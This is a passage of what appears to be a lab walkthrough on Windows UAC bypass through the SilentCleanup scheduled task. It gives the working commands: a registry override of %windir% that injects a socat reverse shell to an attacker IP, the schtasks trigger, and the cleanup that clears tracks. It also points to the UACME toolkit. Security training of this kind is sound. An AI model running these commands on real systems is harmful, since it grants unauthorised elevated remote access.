 Checking the Actions and Settings tabs, we have the following:

### 21.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

The task can be run on-demand, executing the following command when invoked:

 `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%`  as follows (without the quotes):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Where anything after the "REM" is ignored as a comment.

## Putting it all together

`reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f`

`schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I`

As a result, you should obtain a shell with high IL:

## Clearing our tracks

`reg delete "HKCU\Environment" /v "windir" /f`

**Note: Be sure to execute the given command to avoid any artefact interfering with the following tasks. Since many Windows components rely on the %windir% environment variable, a lot of things won't properly work until you remove the registry key used for this bypass.**

-------------------------------------------------------

## Automated Exploitation

An excellent tool is available to test for UAC bypasses without writing your exploits from scratch. Created by @hfiref0x, UACME provides an up to date repository of UAC bypass techniques that can be used out of the box. The tool is available for download at its official repository on:

https://github.com/hfiref0x/UACME

While UACME provides several tools, we will focus mainly on the one called Akagi, which runs the actual UAC bypasses.
